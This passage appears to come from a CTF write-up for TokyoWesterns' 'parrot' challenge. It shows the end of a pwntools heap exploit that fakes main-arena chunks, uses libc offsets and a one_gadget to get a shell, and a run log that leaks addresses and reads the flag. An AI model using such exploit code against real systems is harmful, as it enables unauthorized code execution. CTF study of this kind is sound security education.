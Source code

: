                     p64(0), p64(0xc1),
                    p64(0x41414141), p64(NEXTARENA+0x1c0),
                    p64(NEXTARENA+0x1b0), p64(NEXTARENA+0x180),
                    p64(0), p64(0x21)*22,
                    '/bin/sh\x00',
                    p64(0x31)*11, p64(0)*8,
                    p64(NEXTARENA+0x368), p64(0)*3,
                    p64(1), p64(0),
                    p64(0), p64(NEXTARENA+0x390),
                    p64(1), p64(2),
                    p64(3), p64(0),
                    p64(0)*2,
                    p64(LIBC+0x45390 - 0x1000),
#                   p64(LIBC+0xf1117 - 0x1000)  <-- this also works one_gadget
                    )

    payload = payload.ljust(0x840, 'A')
    alloc(str((0x840)), payload, False)
    pause()
    alloc(str(0x100), '')

    payload = flat( p64(0) * 11, p64(0x92),
                    p64(0), p64(LIBC + 0x3c4510))
    alloc(str(0xf0), payload)
    alloc(str(128), '')

    r.interactive()

    
if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['./parrot'], env={"LD_PRELOAD":"./libc.so.6"})
        print util.proc.pidof(r)
        pause()
        exploit(r)

{% endhighlight %}

{% highlight text %}
➜  parrot python ./parrot.py pwn2.chal.ctf.westerns.tokyo 31337
[*] For remote: ./parrot.py HOST PORT
[+] Opening connection to pwn2.chal.ctf.westerns.tokyo on port 31337: Done
[*] Leaking libc addresses
[*] LIBC leak       : 0x7f5581799b78
[*] LIBC            : 0x7f55813d6000
[*] MAIN ARENA      : 0x7f5581799b20
[*] Moving main arena to mmaped area
[*] Leaking next main arena
[*] NEXT ARENA      : 0x7f557c000000
[*] Prepare memory area below next arena with fake chunk sizes
[*] Overwrite one byte of next arena top
[*] Allocate chunk inside next main arena
[*] Paused (press any to continue)
[*] Switching to interactive mode
$ ls
flag
launch.sh
parrot
$ cat flag
TWCTF{0verwr1t3_w1th_z3r0_1s_p0w3rfu11!}